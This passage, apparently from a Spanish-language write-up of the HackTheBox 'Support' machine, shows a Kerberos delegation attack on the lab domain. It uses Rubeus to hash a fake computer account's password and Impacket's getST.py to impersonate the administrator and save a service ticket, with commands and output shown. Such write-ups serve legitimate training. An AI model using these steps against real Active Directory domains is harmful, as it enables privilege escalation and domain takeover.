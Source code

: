 A continuación, usaré Rubeus para generar los hashes del nuevo pc FAKE


 ```powershell 
 *Evil-WinRM* PS C:\Users\support\Documents> ./Rubeus.exe hash /password:elc4br4 /user:ELC4BR4$ /domain:support.htb
 ```

![](/assets/images/HTB/Support-HackTheBox/rubeus.png)

HASH --> 31F429C15354CF5017A09D88CC57A495EEFB53884801AD5B48FF4EA02799357A

Hemos dado al computer object "ELC4RB4" los derechos para hacerse pasar por otros.
Ahora podemos solicitar el ticket-Granting-Ticket (TGT) de Kerberos mientras suplantamos la identidad del administrador.

Seguimos los siguientes pasos:

```bash
python3 getST.py support.htb/ELC4BR4 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 31F429C15354CF5017A09D88CC57A495EEFB53884801AD5B48FF4EA02799357A

Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

```bash
 export KRB5CCNAME=administrator.ccache
 ```
